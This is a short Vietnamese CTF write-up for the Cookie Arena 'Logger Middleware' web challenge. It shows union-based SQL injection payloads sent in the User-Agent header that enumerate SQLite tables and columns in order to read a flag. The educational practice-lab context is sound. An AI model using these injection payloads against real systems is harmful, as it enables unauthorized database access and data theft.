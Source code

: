 ```yaml
---
title: Logger Middleware Writeup - Cookie Arena
date: "2023-08-01 16:22:15"
categories:
  - CTF Writeup
  - Cookie Arena
tags:
  - middleware
  - SQL Injection
published: false
---
```


Link Challenge: [https://battle.cookiearena.org/challenges/web/logger-middleware](https://battle.cookiearena.org/challenges/web/logger-middleware){:target="\_blank"}.

![access log page](/assets/img/posts/logger-middleware-cookiearena/access-log.PNG)

Tương tự với [Baby Logger Middleware](/assets/img/posts/baby-logger-middleware-writeup-cookie-arena/) nhưng khó hơn 1 chút xíu, vẫn lại là sql injection.

![error query](/assets/img/posts/logger-middleware-cookiearena/error-sql.png)

Đã biết số lượng columns trong bảng logger, tiến hành test Union-Based SQLi

![test union-based sqli](/assets/img/posts/logger-middleware-cookiearena/test-union-based-sqli.png)
_Union-Based SQLi_

Google 1 chút về sqlite, cũng nắm sơ qua về nó rồi thì bắt tay vào viết payload thôi.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from sqlite_master-- -
```

![List Tables](/assets/img/posts/logger-middleware-cookiearena/tables.png)
_Liệt kê tables trong sqlite_master_

Yep, chính nó, bảng **flag**.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from pragma_table_info('flag')-- -
```

![List Columns](/assets/img/posts/logger-middleware-cookiearena/columns.png)
_Liệt kê columns trong bảng **flag**_

Cột **secr3t_flag** chắc chắn chứa flag rồi. Let's catch it!

![secr3t_flag](/assets/img/posts/logger-middleware-cookiearena/flag.png)
_secr3t_flag_
